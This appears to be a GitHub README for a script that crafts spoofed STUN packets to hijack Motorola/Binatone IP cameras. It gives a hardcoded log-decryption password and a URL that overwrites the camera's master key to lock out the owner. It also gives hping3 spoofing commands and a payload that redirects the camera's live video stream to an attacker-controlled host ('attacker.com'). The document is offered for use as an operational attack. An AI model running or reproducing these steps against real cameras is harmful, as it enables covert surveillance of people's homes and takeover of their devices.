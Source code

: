 # TL;DR
This script makes special STUN packets to control Motorola/Binatone IP cameras behind NAT

It has been tested with a Motorola FOCUS 73.

# Requirements
* Read the blog at http://www.contextis.com/resources/blog/push-hack-reverse-engineering-ip-camera/
* A valid AES key for your target camera
* hping3 for sending your packet
* Ability to IP spoof (most ISPs don't allow this so either get closer to the target or find a new ISP)
* Wireshark for testing. Should come up as UDP/STUN

# Getting the AES key
There are different ways to get the key:

### Download it
If you can access the device locally, visit :8080/cgi-bin/logdownload.cgi then decrypt the logs with **Cvision123459876**

### Set it
If you want to control it AND stop the owner accessing it... :80/?action=command&command=set_master_key=MyCameraNowThanx

### Read it from the file system
Get a root shell on the camera with a bit of javascript (see blog) then find skyeye.conf. The AES key is in there.

# Execution

`python stunning.py “set_wowza_server&value=10.45.3.100” > stunpacket`

`hping3 10.45.3.62 --udp -V -p 50610 --spoof stun.hubble.in -s 3478 --file stunpacket --data $(stat -c%s stunpacket) -c 1`

Note: The UDP source port will always be 3478 but the destination port is dynamic. If you have access to the camera you can find it with netstat otherwise you will need to try different ports with the following 2 payloads to find the right UDP port.
`set_wowza_server&value=attacker.com`

`start_rtmp`

You will know you've got the right port because you'll receive a live RTMP video stream on TCP 1935. Red5 can be used to receive the video.


